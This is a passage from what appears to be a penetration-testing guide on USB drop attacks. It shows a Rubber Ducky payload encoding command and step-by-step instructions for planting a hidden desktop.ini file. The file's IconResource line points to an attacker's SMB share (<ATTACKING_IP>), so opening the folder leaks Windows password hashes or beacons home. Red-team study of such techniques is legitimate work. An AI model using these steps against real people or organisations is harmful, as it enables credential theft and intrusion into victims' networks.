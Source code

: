   `java -jar duckencoder.jar -i rubberducky.txt -o /Volumes/NO\ NAME/inject.bin`  
- Place the inject.bin file on the root directory of the micro USB

Recieve Callbacks

- Review your apache logs at /var/log/apache2/access.log
  - Example  
![USB Drop Callback - Rubberducky](/assets/images/usb_drop_callback_rubberducky.jpg)  

Files
 - [redirect_landing.html](https://github.com/bradleythornton/usb_drop_templates/blob/master/Redirect_Landing.html)
 - [rubberducky.txt](https://github.com/bradleythornton/usb_drop_templates/blob/master/rubberducky.txt)

*Desktop.ini Trick*  

Desktop.ini is a file that Windows creates automatically when you customize folder icons or other settings. The settings themselves get stored in desktop.ini.  

How it works  

We use desktop.ini to get windows to reach out to grab the folders icon on a remote share (our attacking machine) and attempt to authenticate to it. If SMB outbound is blocked, then it will resort to using WebDAV MiniRedir which doesn't authenticate (you don't get a hash) but you do get an entry on your webserver reporting that something reached out.  

- Pros
  - User only has to open a folder
  - The file can be hidden
  - Super small payload
  - You can get password hashes potentially
  - Use off the shelf USB’s, no HID’s
- Cons
  - Authentication only works with Windows
  - If no SMB outbound, you don’t get a hash

How to do it (Win OS instructions)  

Folder Preparation

- Create an interesting folder on the USB drive (private/documents/finance/passwords/confidential)  
`mkdir <Folder_Name>`  

- Make the folder a "system" folder  
`attrib +s <path_to_folder>`  

File Preparation

- Create a file titled “desktop.ini”
- Place the below code in the file  
  
```
[.ShellClassInfo]
IconResource=\\<ATTACKING_IP>\<TARGET_COMPANY>?usb=<USB_DESCRIPTION>.ico,0
```
  